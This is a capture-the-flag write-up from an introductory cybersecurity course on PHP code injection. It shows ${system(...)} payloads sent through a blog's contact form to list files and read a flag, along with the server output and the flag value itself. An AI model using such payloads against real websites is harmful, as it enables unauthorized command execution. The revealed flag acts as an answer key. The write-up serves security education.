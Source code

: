 # Lesson 14: Code Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lesson/14](https://cybertalents.com/learn/introduction-to-cybersecurity/lesson/14)*

## Introduction

In this lesson, we will learn about Code Injection, and how can we use it to execute commands on the server.

> ### What is Code Injection?
>
> #### Code injection is a web security vulnerability that allows an attacker to execute arbitrary code on the host server that is running an application. Code injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Code injection attacks are possible mainly due to insufficient input validation

## Challenge

> Name:\
> *Hashable*

---

> Description:\
> *A famous enterprise blog was hacked, can you figure out how it was hacked?*

## Solution

In this challenge, we have a website, we need to get the flag.

So First of all, lets navigate to the contact page, and try to send a message to the admin.

That contains this payload:

```php
${system('pwd')}
```

After sending the request, we will get a response that says:

```html
/var/www/html Message successfully sent!
```

So, we can see that the website is using `system` function to execute the command, and we can use it to get the flag.

Lets try to send this payload to the website:

```php
${system('ls')}
```

After sending the request, we will get a response that says:

```html
about.php contact.php css flag_23894ABCX1.txt footer.php gulpfile.js header.php img index.php js package-lock.json package.json post.php scss vendor Message successfully sent!
```

Here is the flag file, lets read it:

```php
${system('cat flag_23894ABCX1.txt')}
```

After sending the request, we will get a response that says:

```html
18ab51f960bd149bcb2497b9998c752c Message successfully sent!
```

And Here is the flag.

## Flag

> 18ab51f960bd149bcb2497b9998c752c

## References

- [https://www.owasp.org/index.php/Code_Injection](https://www.owasp.org/index.php/Code_Injection)
